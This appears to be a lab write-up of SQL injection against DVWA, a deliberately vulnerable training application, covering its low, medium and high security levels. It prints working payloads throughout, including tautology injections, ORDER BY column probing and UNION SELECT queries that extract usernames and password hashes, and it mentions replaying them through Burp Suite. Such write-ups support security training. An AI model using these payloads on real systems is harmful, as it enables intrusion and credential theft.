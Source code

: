 # SQL Injection

Objective: DVWA has 5 users in the database with ID's from 1 to 5. Retrieve information via SQLi.

## Security Level: LOW

DVWA has the function, where user can enter ID and the application retreives First name and Surname that belongs to the ID.

![image](https://github.com/user-attachments/assets/005092a9-d8cf-4a4c-ba74-a35df6a30880)

The function uses the below SQL query to retrieve data from the data base:

```bash
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

Since there is no input validation, sql injection can be exploited. Passing single qoute as input return internal server error, indicates sqli is 
possible.

Using input as below.
```
1' OR '1'='1
```
This input is passed to the SQL statement as below:
```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1' = '1';
```
Since '1' = '1' is always true, select statement returns all the values present in the database.

![image](https://github.com/user-attachments/assets/0c4da4b5-a72d-47da-8109-15b00490db87)

---

## Retrieve Password from another table using UNION attack

First, we need find number of columns present in the `user` table. We can confirm this by passing the following crafted input.

- `' order by 1#` - causes fatal error
- `' order by 2#` - No error
- `' order by 3#` - fatal error

This confirms that there are 2 columns.

Next, we need to find datatype of the columns.

- `' UNION SELECT 'abc','abc' from users #`

From MariaDB knowledge base, we can figure out the column names.

https://mariadb.com/kb/en/mysql-user-table/

Now, use the found column names (user, password) in the union sql injection

```
' UNION SELECT user, password from users #

```

Query returned username and password hashes.

![image](https://github.com/user-attachments/assets/a6ce6916-997a-4980-8cf1-54ac567905fc)

Lets try this burp suite:

Request from the application is intercepted and sent to repeater.

In the request tab, Used `' UNION SELECT user, password from users #` and url encoded and sent to the application.

![image](https://github.com/user-attachments/assets/b7e726d3-8571-43ab-8fc3-cc4415bbb7d1)

The response received:

![image](https://github.com/user-attachments/assets/d7ef67f5-55c8-45d1-a9b5-6438c2934162)


The hashed password can be decoded.


## Security Level: Medium

```bash
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

In medium level security, the input id is directly used in the sql statement.
Parameters like single quotes are escaped.

```
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

![image](https://github.com/user-attachments/assets/f5e83c21-85de-4c57-8c39-a6974a1d3576)


Since we cant use single quote craft input without quotes:

```bash
1 or 1=1 UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/69a4bc3e-984a-472c-b158-20abcbc9b63e)

This successfully gets injected to the SQL source code, retriving data from users table.

```bash
SELECT firstname, lastname FROM users WHERE user_id = 1 or 1=1 UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/6d69cc5b-cdf6-41ec-8b0f-13a950b9aa42)

## Security Level: High

Use the crafted input similar to the one that we used in security level: Low.

```bash
1' UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/a095e9be-f1aa-4fb0-8db5-0a1861d4e297)


---

Attacker is able to exploit this SQL Injection vulnerability because the input parameters supplied by the users are directly passed to the database to retreive information back to the application. 
